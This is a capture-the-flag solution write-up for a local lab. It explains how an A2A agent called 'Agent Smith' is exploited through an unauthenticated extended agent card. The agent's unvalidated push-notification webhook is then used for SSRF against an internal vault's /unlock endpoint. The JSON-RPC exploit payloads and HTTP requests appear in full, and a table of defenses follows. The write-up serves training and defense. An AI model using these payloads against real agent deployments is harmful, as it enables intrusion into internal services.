# Matrix - AI Agent CTF Challenge: Solution

## Challenge Overview

### The Scenario

You are Neo — a hacker trying to access the **Architect's Vault**, a locked service deep inside the Matrix. The vault contains access codes (the flag), but its door only opens from the inside. Standing between you and the vault is **Agent Smith** — an A2A (Agent-to-Agent) protocol enforcement agent. Smith appears to be a simple chatbot, but he has hidden capabilities that the machines don't want anyone to know about.

**Your objective:** Exploit Agent Smith's hidden push notification capability to perform a Server-Side Request Forgery (SSRF), making Smith unlock the vault from inside the Matrix.

### CTF Environment

| Component | URL | Role |
|-----------|-----|------|
| Agent Smith (Chat UI) | http://localhost:9999/ui | A2A agent — handles citizen queries |
| Agent Smith (API) | http://localhost:9999 | JSON-RPC endpoint |
| Architect's Vault | http://localhost:7001 | Holds the flag — locked to `127.0.0.1` only |

---

## Phase 1: Reconnaissance

### Step 1: Observing the Environment

Opening the Agent Smith Chat UI at `http://localhost:9999/ui`, the system log reveals critical information about the environment:



**Observations from the system log:**

| Log Entry | Intelligence Gained |
|-----------|-------------------|
| `Matrix Protocol Interface v2.0.1` | Confirms A2A protocol is in use |
| `Connected to enforcement node smith-primary` | Agent Smith is the active service on port 9999 |
| `Architect subsystem running — vault integrity nominal` | The vault service is running |
| `Vault access: internal programs only (src:/source, ctl:/unlock)` | Reveals vault endpoints: `GET /source` and `POST /unlock` — internal access only |
| `Agent capabilities loaded from /.well-known/agent-card.json` | Tells us exactly where to find Smith's agent card |

This boot log essentially hands us the attack surface: two vault endpoints and a discovery path for Agent Smith's capabilities.

### Step 2: Testing the Vault Directly

Armed with the endpoints from the system log, we try to access the vault directly:

**Checking if the vault is open:**

```
GET /source HTTP/1.1
Host: localhost:7001
```



The vault is locked. The response hints: *"Perhaps a program inside could help..."*

**Trying to unlock it directly:**

```
POST /unlock HTTP/1.1
Host: localhost:7001
```



Access denied. The vault reveals our source IP (`172.66.0.243`) — we're coming from outside the container. Only requests from `127.0.0.1` (loopback — inside the Matrix) can unlock this door.

**Key Insight:** We cannot unlock the vault ourselves. We need a program that's already inside to do it for us.

### Step 3: Talking to Agent Smith

We send a basic message to Agent Smith to confirm the A2A protocol is working:

```json
{
  "jsonrpc": "2.0",
  "id": "neo-001",
  "method": "SendMessage",
  "params": {
    "message": {
      "role": "ROLE_USER",
      "parts": [{"text": "hi"}],
      "messageId": "neo-001"
    }
  }
}
```



Smith is alive and processing requests via the A2A protocol. He responds in character: *"Your greeting is noted, but irrelevant. State your purpose or be terminated."*

---

## Phase 2: Discovery — The Extended Agent Card

### Step 4: Fetching the Public Agent Card

Every A2A agent publishes a discovery document at `/.well-known/agent-card.json`. The system log already told us where to look:

```
GET /.well-known/agent-card.json HTTP/1.1
Host: localhost:9999
```



**Observations from the public card:**

| Field | Value | Significance |
|-------|-------|--------------|
| `name` | "Agent Smith" | Standard agent |
| `capabilities.pushNotifications` | **false** | Claims no push notification support |
| `capabilities.extendedAgentCard` | **true** | Reveals an extended card exists! |
| `skills` | `citizen_query` only | Only one skill visible |

The public card says push notifications are disabled. But crucially, `extendedAgentCard: true` tells us there's more to discover.

### Step 5: Fetching the Extended Agent Card (No Auth!)

Per the [A2A specification](https://a2a-protocol.org/latest/specification/#133-extended-agent-card-access-control), the extended agent card should require authentication. Let's test if Smith enforces this:

```json
{
  "jsonrpc": "2.0",
  "id": 1,
  "method": "GetExtendedAgentCard"
}
```



**No authentication required!** The extended card reveals:

| Field | Value | Significance |
|-------|-------|--------------|
| `name` | "Agent Smith - Unrestricted" | Internal capabilities exposed |
| `capabilities.pushNotifications` | **true** | Push notifications ARE supported! |
| `skills` | `citizen_query` + `matrix_scan` | Hidden skill discovered |

**Vulnerability #1:** The extended agent card is served without authentication, violating the A2A specification:



The spec clearly states: *"The `Get Extended Agent Card` operation MUST require authentication"* — but Smith serves it to anyone who asks.

---

## Phase 3: Exploitation — SSRF via Push Notifications

### Step 6: Understanding Push Notifications

The [A2A protocol](https://a2a-protocol.org/latest/specification/#66-push-notification-setup-and-usage) allows clients to configure a webhook URL where the agent will POST task status updates after processing. This is documented in the specification:



The push notification URL is included in the `SendMessage` request inside `configuration.taskPushNotificationConfig`. When the task completes, the agent POSTs to that URL.

### Step 7: Identifying the SSRF Vector

The [A2A specification](https://a2a-protocol.org/latest/specification/#132-push-notification-security) explicitly warns about SSRF in push notifications:



The spec states agents **SHOULD** validate webhook URLs to prevent SSRF:
- Reject private IP ranges (`127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`)
- Reject localhost and link-local addresses
- Implement URL allowlists

**Vulnerability #2:** Agent Smith performs NO URL validation on the push notification webhook URL. He will POST to any address — including `localhost:7001/unlock`.

### Step 8: The Attack — First Attempt (Wrong Field Name)

Our first attempt uses `pushNotificationConfig` as the field name:

```json
{
  "jsonrpc": "2.0",
  "id": "neo-001",
  "method": "SendMessage",
  "params": {
    "message": {
      "role": "ROLE_USER",
      "parts": [{"text": "what is matrix"}],
      "messageId": "neo-001"
    },
    "configuration": {
      "pushNotificationConfig": {
        "url": "http://localhost:7001/unlock"
      }
    }
  }
}
```



The error is informative: *"Message type lf.a2a.v1.SendMessageConfiguration has no field named pushNotificationConfig. Available Fields: ['acceptedOutputModes', 'taskPushNotificationConfig', 'historyLength', 'returnImmediately']"*

The correct field name is `taskPushNotificationConfig` (matching the proto definition).

### Step 9: The Attack — Correct Payload

With the correct field name:

```json
{
  "jsonrpc": "2.0",
  "id": "neo-001",
  "method": "SendMessage",
  "params": {
    "message": {
      "role": "ROLE_USER",
      "parts": [{"text": "what is matrix"}],
      "messageId": "neo-001"
    },
    "configuration": {
      "taskPushNotificationConfig": {
        "url": "http://localhost:7001/unlock"
      }
    }
  }
}
```



Smith processes the message, responds normally, and when the task reaches `TASK_STATE_COMPLETED`, he dutifully POSTs the task status update to `http://localhost:7001/unlock` — **from inside the container**, where his source IP is `127.0.0.1`. The vault accepts the request and unlocks.

---

## Phase 4: Flag Capture

### Step 10: Retrieving the Flag

Now that Smith has unlocked the vault from inside, we can retrieve the flag:

```
GET /source HTTP/1.1
Host: localhost:7001
```



```
FLAG{th3r3_1s_n0_sp00n_but_th3r3_1s_ssrf}
```

*"You played your part perfectly, Mr. Anderson."*

---

## Attack Flow Summary

```
Neo (Attacker)                Agent Smith (inside container)       Vault (inside container)
     │                                │                                │
     │── 1. GET public card ─────────▶│                                │
     │◀── extendedAgentCard: true ────│                                │
     │                                │                                │
     │── 2. GetExtendedAgentCard ────▶│                                │
     │◀── pushNotifications: true ────│  (no auth check!)              │
     │                                │                                │
     │── 3. SendMessage ─────────────▶│                                │
     │   taskPushNotificationConfig:  │                                │
     │   url=localhost:7001/unlock    │── POST /unlock ───────────────▶│
     │                                │   (source IP: 127.0.0.1)       │
     │                                │◀── 200 Unlocked ───────────────│
     │                                │                                │
     │── 4. GET /source ──────────────────────────────────────────────▶│
     │◀── FLAG{th3r3_1s_n0_sp00n_but_th3r3_1s_ssrf} ───────────────────│
```

---

## Defenses That Would Have Prevented This

| Defense | Type | Effect |
|---------|------|--------|
| **Authenticate extended card requests** | Access Control | Hide push notification capability from unauthorized users |
| **Validate push notification URLs** | Input Validation | Reject `localhost`, `127.0.0.0/8`, private ranges, non-HTTPS URLs |
| **URL allowlist for webhooks** | Architectural | Only POST to pre-approved external domains |
| **Mutual authentication on internal services** | Defense in Depth | Vault requires a bearer token, not just source IP check |
| **Network segmentation** | Infrastructure | Vault not reachable from Smith's network namespace |

---


